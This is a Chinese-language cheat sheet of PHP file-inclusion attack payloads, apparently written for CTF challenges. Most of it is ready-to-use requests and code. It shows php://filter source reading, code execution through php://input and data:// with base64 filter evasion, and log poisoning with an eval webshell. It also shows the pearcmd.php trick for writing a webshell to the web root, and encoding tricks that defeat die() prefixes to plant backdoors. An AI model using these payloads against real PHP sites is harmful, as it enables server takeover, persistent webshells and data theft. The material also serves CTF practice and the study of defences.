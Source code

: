 allow_url_include=off默认关闭，开发者使用文件包含往往会开启
allow_url_fopen=on默认开启，一般不用管
<https://blog.csdn.net/weixin_44508748/article/details/108162951>

^
## **php伪协议 文件包含读本地php文件源代码**
php://filter
```
include xx;
@include(xx);
include php://filter/read=convert.base64-encode/resource=flag.php

包含返回flag.php文件源码字符串的是base64编码内容
进行一次base64解码即可看到源代码

如果是根据名称匹配包含php文件
只需要把名称参数换成php://filter/read=convert.base64-encode/resource=flag即可。

也可中间加个index等字符也可以，绕过一些包含字符匹配。
php://filter/read=convert.base64-encode/index/resource=flag
php://filter/ctfshow/resource=flag.php
```
其他编码方式
```
file=php://filter/resource=flag.php
php://filter/ctfshow/resource=flag.php
file=php://filter/read=convert.quoted-printable-encode/resource=/var/www/html/flag.php


UCS-2BE编码：
file=php://filter/read=convert.iconv.UCS-2LE.UCS-2BE/resource=hack.php

编码
<?php
$re = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_GET[1]);?>');
echo $re;
?>
得?<hp pe@av(l_$EG[T]1;)>?


解码：
$encoded_string = // 这里应该是以 UCS-2LE 编码的原始字符串
$decoded_string = iconv("UCS-2LE", "UCS-2BE", $encoded_string);
echo $decoded_string;
```

^
## **compress.zlib包含文件php源代码**
```
?file=compress.zlib://flag.php
```


^
## **php伪协议 文件包含注入php的php代码**

1. php://input 自动包含POST请求体(需要第一allow_url_include开启)
```
include php://input
post请求的请求体参数xx=<?php system(); ?>
请求体直接就一个<?php system(); ?>也可。

如：
?file=Php://input  这里大写可以绕过过滤php
再post：<?php system("tac flag.php");?>

```

2. data://text/plain直接包含代码内容:(需要两个allow开启)
```
include data://text/plain,<?php phpinfo(); ?>

file_get_contents('data://text/plain,welcome to the zjctf','r')
即为welcome to the zjctf

file_get_contents($_GET['2333']) === 'todat is a happy day'
则?2333=data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=


代码执行获取flag
payload：
?c=data://text/plain,<?php system('cat f*');?>
?c=data://text/plain,<?=system("tac%20flag.php");?>

防止过滤一下：?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZionKTs/Pg==
但是结尾有.php的情况：include($c.".php"); 编码后会失效。
如果= 也过滤，调整空格数量，直至base64后没有=，末尾会是+号，或直接把=去除。
如果=+也过滤了，<?php    system("ls");     不要闭合?>这样的base64末尾没有+。
如果=+也过滤了，<?php    system("ls") ?>   去掉;这样的base64末尾没有+。
```

^
## **日志包含**
考伪协议绕过也可能直接日志包含
?file=/var/log/nginx/access.log
修改UA为：<?php @eval($_REQUEST[1])?>
1=system("ls");
1=system("tac fl0g.php");




^
## **php伪协议 文件包含自动解压文件再包含**
```
phar://D:/phpinfo.zip/phpinfo.txt
zip://D:\\phpinfo.jpg%23phpinfo.txt

上传了个压缩包，压缩包中phpinfo.txt中文件为<?php system($_GET[a]); ?>
```


## **pearcmd.php文件包含**
已知文件包含：include $_GET['c'].".php";
裸文件包含, 没有上传点, 可供尝试的只有pearcmd.php上传木马。
先用
```
GET /index.php?+config-create+/&c=pearcmd&/<?=@eval($_POST['cmd']);?>+/var/www/html/test.php HTTP/1.1
```
在/var/www/html下写入webshell
再
```
POST /test.php HTTP/1.1

Content-Type: application/x-www-form-urlencoded
Content-Length: 26

cmd=system("cat 36d.php");
```
也可<https://www.cnblogs.com/Egcrying/p/17665041.html>





^
^
^
## **php伪协议写文件**
### **file_put_contents()场景写文件漏洞**
#### **1、写后门过滤绕过**
对于
```
if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        die('hacker!!!');
}
file_put_contents("index.php", $input)
```
可以传入绕过
```
<?=`ls\t/*`?>
<?=`cat\t/flllllll1112222222lag`?>
```

^
#### **2、伪协议写后门绕过**
如果是第一个参数可控，使用伪协议。
```
$file = $_GET['file'];
$content = $_POST['content'];

$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
$file = str_replace(":", "???", $file);
$file = str_replace(".", "???", $file);

file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
```
绕过替换，$file使用双重url编码。
绕过die()函数，$file使用base64伪协议。将die()过滤成die无效字符。
```
?file=php://filter/write=convert.base64-decode/resource=jiuzhen.php
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%36%61%25%36%39%25%37%35%25%37%61%25%36%38%25%36%35%25%36%65%25%32%65%25%37%30%25%36%38%25%37%30
```
POST传递：
```
content=<?php system(ls);?>   //base64编码—下
content=PD9waHAgc3lzdGVtKGxzKTs/Pg==
content=aaPD9waHAgc3lzdGVtKGxzKTs/Pg== //加两个字符
//<?php die('大佬别秀了');?>被base64过滤后变成phpdie，加两个字符变成4的倍数。
```
访问jiuzhen.php即可。

^
#### **3、伪协议写后门绕过**
```
$file=$_GET['file'];
$contents=$_POST['contents'];

function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}

filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```
绕过die()函数，$file使用base64伪协议。将die()过滤成die无效字符。
但是这里过滤了base64，这里使用iconv.UCS-2LE.UCS-2BE编码解码。
```
?file=php://filter/write=convert.base64-decode/resource=jiuzhen.php
?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=hack.php
```
```
<?php
$re = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_GET[1]);?>');
echo $re;
?>
得?<hp pe@av(l_$EG[T]1;)>?
```
POST传入：
```
contents=?<hp pe@av(l_$EG[T]1;)>?
```
访问即可
```
/hack.php?1=system('ls');
```